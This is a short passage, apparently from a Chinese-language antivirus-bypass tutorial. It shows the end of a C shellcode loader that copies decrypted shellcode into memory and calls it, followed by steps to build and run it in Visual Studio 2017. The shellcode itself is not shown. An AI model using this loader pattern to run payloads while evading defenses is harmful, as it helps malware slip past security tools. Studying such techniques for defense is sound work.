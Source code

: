 ```
	// Copying deciphered shellcode into memory as a function
	memcpy(exec, shellcode, sizeof shellcode);

	// Call the shellcode
	((void(*)())exec)();
}

```
在vs2017中新建win32控制台应用程序

![8dda098d404da01fa2073f12beb33209](images/2020.03-bypass-03/25.png)

编译执行
